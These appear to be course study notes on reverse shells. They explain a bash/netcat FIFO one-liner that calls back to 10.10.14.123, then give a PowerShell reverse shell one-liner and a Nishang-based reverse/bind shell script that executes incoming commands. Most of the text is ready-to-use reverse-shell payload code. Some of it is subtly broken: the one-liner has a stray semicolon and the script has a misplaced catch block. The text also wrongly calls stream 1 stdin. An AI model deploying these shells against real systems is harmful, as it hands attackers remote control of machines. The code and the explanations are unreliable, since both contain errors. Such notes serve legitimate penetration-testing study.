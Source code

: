 # Examining Shells and Payloads

## The classic Netcat/Bash Reverse Shell One-Liner
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.123 1337 > /tmp/f
```

- `rm -f /tmp/f;` force-removes the `/tmp/f` file, if it exists.

- `mkfifo /tmp/f` creates a `first-in-first-out` named pipe at the location specified. 
In this case, `/tmp/f` is the FIFO named pipe file.

- `cat /tmp/f |` concatenates the FIFO named pipe file, 
connecting the standard stdout of `cat /tmp/f` to the  the stdin of the command that comes next.

- `/bin/bash -i 2>&1 |` specifies our command language interpreter using the `-i` option to
ensure the shell is interactive. `2>&1` ensures the standard error data stream (2)& stdin data 
stream (1) are redirected to the command that comes next.

- `nc 10.10.14.123 1337 > /tmp/f` uses Netcat to send a connection to the host on port 1337. 
The output will be redirected to `/tmp/f`, serving the Bash shell to our waiting listener when 
the shell gets executed.

## The Powershell One-Liner

```bash
powershell -nop -c 
	$client = New-Object System.Net.Sockets.TCPClient('10.10.14.123', 443;)
	$stream = $client.GetStream();

	[byte[]]$bytes = 0..65535 | %{0};

	while(
		($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){
			;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(
				$bytes,0,$i);

			$sendback = (iex $data 2>&1 | Out-String);
			$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
			$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
			$stream.Write($sendbyte,0,$sendbyte.Length);
			$stream.Flush()
		};
	$client.Close # in order to close when finished...
```

We can turn this into a powershell script. This is an example from `Nishang Project`:

```bash
[CmdletBinding(DefaultParameterSetName="reverse")] Param(

    [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
    [Parameter(Position = 1, Mandatory = $false, ParameterSetName="bind")]
    [String]
    $IPAddress,

    [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
    [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
    [Int]
    $Port,

    [Parameter(ParameterSetName="reverse")]
    [Switch]
    $Reverse,

    [Parameter(ParameterSetName="bind")]
    [Switch]
    $Bind
)

try {

    if ($Reverse) {
        $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
    }
    if ($Bind) {
        $listener = [System.Net.Sockets.TcpListener]$Port
        $listener.start()
        $client = $listener.AcceptTcpClient()
    }

    $stream = $client.GetStream()
    [byte[]]$bytes = 0..65535 | %{0}

    $sendbytes = ([text.encoding]::ASCII).GetBytes(
        "Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n"
        )
    $stream.Write($sendbytes,0,$sendbytes.Length)

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '> ')
    $stream. Write($sendbytes,0,$sendbytes.Length)

    while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0)
    {
        $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
        $data = $EncodedText.GetString($bytes,0,$i)
        
        try {
            $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String)
        }
        catch {
            Write-Warning "Something went wrong with the execution of command on-tgt."
            Write-Error $_
        }
        $sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback2 + $x

        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()
    }
    $client.Close()

    if ($listener) {
        $listener.Stop()
    }
    catch {
        Write-Warning "Something went wrong! Check if server reachable and correct port."
        Write-Error $_
    }
}
```


